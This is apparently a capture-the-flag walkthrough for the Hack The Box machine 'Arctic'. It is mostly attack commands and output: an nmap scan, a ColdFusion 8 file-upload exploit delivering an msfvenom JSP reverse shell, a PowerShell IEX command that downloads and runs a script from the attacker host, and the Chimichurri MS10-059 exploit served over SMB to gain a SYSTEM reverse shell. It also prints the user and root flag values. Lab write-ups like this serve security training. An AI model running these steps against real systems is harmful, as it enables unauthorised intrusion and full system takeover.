




# Enumeration

```
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.11
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 13:00 +08
Nmap scan report for 10.10.10.11
Host is up (0.17s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   173.13 ms 10.10.14.1
2   173.11 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 156.50 seconds
```

It seems that there is a weird port `8500` open. Lets check it in our browser.

# Website (Port 8500)




There's an interesting folder named `administrator` which presented us a login page for ColdFusion 8.


# Vulnerabilities

Since we know that the website is using ColdFusion 8, we should search up some vulnerabilities on it.

```
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# searchsploit coldfusion
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                            | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                         | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                            | multiple/remote/16985.rb
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution                    | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                                                  | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                              | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                             | cfm/webapps/36172.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                      | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                                         | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                                | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                                      | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                   | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scriptin | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting         | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting          | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                            | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                  | windows/local/19220.c
Allaire ColdFusion Server 4.0/4.0.1 - 'CFCACHE' Information Disclosure                                         | multiple/remote/19712.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                              | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                                                        | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                                                          | cfm/remote/21548.txt
ColdFusion MX - Remote Development Service                                                                     | windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Database Disclosure                                                      | asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator Login Password Denial of Service                                 | multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Error Message Full Path Disclosure                                              | cfm/webapps/22544.txt
Macromedia ColdFusion MX 6.0 - Oversized Error Message Denial of Service                                       | multiple/dos/24013.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                      | multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Message Cross-Site Scripting                                          | cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                          | multiple/remote/24654.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Paper Title                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Top Five ColdFusion Security Issues                                                                            | docs/english/17845-top-five-cold
--------------------------------------------------------------------------------------------------------------- ---------------------------------

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─#
```

The only exploits that we are interested in is the `ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)` exploit. Googling this exploit brings us to this [page](https://www.exploit-db.com/exploits/16788)
Since we know what the CVE is, lets Google for an exploit which brings us to this [page](https://github.com/zaphoxx/zaphoxx-coldfusion).
Follow the instructions stated on the GitHub page.

```
Usage is pretty simple:
Make sure you have a payload file created
e.g. using msfvenom: msfvenom -p java/jsp_shell_reverse_tcp -f raw LHOST=<yourip> LPORT=<yourport> -o shell.jsp
usage: python3 2265.py [-h] -t TARGET [-p PORT] [-f FILEPATH] [-b BASEPATH]

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# python3 2265.py -t 10.10.10.11 -p 8500 -f shell.jsp
[info] Using following settings:
-----------------------------------
target    :          10.10.10.11
port      :                 8500
filepath  :            shell.jsp
basepath  :
-----------------------------------
[+] File successfully uploaded!
[+] Goto '/userfiles/file/TKVC4S.jsp' to trigger the payload!
[info] Make sure you have a listener active
[info] (e.g. nc -lvp 4444) before triggering the payload
<press any key>
```

After we have successfully run the script, we can `curl` the website to trigger the payload - remember to setup a netcat listener first!

```
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# curl 10.10.10.11:8500/userfiles/file/TKVC4S.jsp
```

```
Netcat listener:
┌──(shiro㉿Shiro)-[~]
└─$ nc -nlvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49264.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3


```

Nice! We obtained the user flag. Now, we have to find a way to escalate our privilege.

# Privilege Escalation

```
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          23/5/2021, 6:17:36 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 360 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.213 MB
Virtual Memory: In Use:    834 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

C:\ColdFusion8\runtime\bin>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4:8000/Sherlock.ps1') ; Find-AllVulns"
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4:8000/Sherlock.ps1') ; Find-AllVulns"

Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```

Since we have a lack of information on the possible exploits, Let's copy the `systeminfo` into a `txt` file and use Windows-Exploit-Suggester to help us.

```
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
Cloning into 'Windows-Exploit-Suggester'...
remote: Enumerating objects: 120, done.
remote: Total 120 (delta 0), reused 0 (delta 0), pack-reused 120
Receiving objects: 100% (120/120), 169.26 KiB | 14.10 MiB/s, done.
Resolving deltas: 100% (72/72), done.

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2021-05-23-mssb.xls
[*] done

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2021-05-23-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

MS10-059 sounds interesting (because we want to escalate our privilege). Here is the Github [link](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe).

Let's open a smb server to share the exploit downloaded.

```
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# python3 /opt/impacket/examples/smbserver.py share .
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then, we copy the exploit over to our user shell.

```
C:\ColdFusion8\runtime\bin>net use \\10.10.14.4\share
net use \\10.10.14.4\share
The command completed successfully.

C:\ColdFusion8\runtime\bin>copy \\10.10.14.4\share\Chimichurri.exe
copy \\10.10.14.4\share\Chimichurri.exe
        1 file(s) copied.
```

Now that we have our exploit ready, let's start another netcat listener and run the exploit!

```
C:\ColdFusion8\runtime\bin>.\Chimichurri.exe 10.10.14.4 443
.\Chimichurri.exe 10.10.14.4 443
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```
```
Netcat listener
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Arctic]
└─# nc -nvlp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49297.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```
